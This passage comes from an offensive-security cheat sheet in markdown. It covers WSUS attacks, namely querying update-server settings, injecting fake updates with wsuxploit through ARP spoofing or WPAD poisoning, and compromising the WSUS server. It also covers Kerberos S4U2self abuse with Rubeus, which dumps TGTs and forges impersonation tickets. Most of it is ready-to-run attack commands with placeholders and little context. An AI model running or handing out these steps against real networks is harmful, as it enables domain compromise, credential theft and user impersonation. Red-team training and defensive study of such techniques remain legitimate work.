 ````
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\Au /v UseWUServer
```

#### Retrieve WSUS URL
```
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
```

### Injecting a fake update via straight ARP spoofing
- https://github.com/pimps/wsuxploit
- If unable to perform ARP Spoofing due to an arpspoof issue, use bettercap while the wsuxplit.sh is running.
  - https://github.com/evilsocket/bettercap 

### Inject fake update
```
.\wsuxploit.sh <TARGE IP> <WSUS IP> <WSUS PORT> <PATH TO SIGNED BINARY>
```

### Injecten a fake update via WPAD injection
#### Check if automatic detection of the proxy is performed
- If the 5th byte of the result of the query is even, automatic detection of the proxy may be set in Internet Explorer. Then we can use a poisoner like Responder or Inveigh to perform WPAD injection.
```
req query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections"
```

### Attacking WSUS Server
- WSUS server is most likely be interconnected to servers containing sensitive information.
- After comprimising the WSUS server it might be possible to acces networks you weren't able before.
- Inject a fake update directory to the WSUS server
  - https://github.com/AlsidOfficial/WSUSpendu 

## S4U2self
- Gain access to a domain computer if we have its RC4, AES256 or TGT.
- There are means of obtaining a TGT for a computer without already having local admin access to it, such as pairing the Printer Bug and a machine with unconstrained delegation, NTLM relaying scenarios and Active Directory Certificate Service abuse

#### Dump TGT
```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<LUID> /service:krbtgt
```

#### Request TGS
```
.\Rubeus.exe s4u /user:<COMPUTERNAME>$ /msdsspn:cifs/<COMPUTER FQDN> /impersonateuser:<USER TO IMPERSONATE> /ticket:<TGT BASE64> /nowrap
```

- S4u2proxy will fail, the s4uself works. Copy the s4u2self base64 string

#### Save it to disk
```
[System.IO.File]::WriteAllBytes("C:\Users\public\<USER>.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```

#### Get information of the ticket
```
.\Rubeus.exe describe /ticket:C:\Users\public\<USER>.kirbi
```

````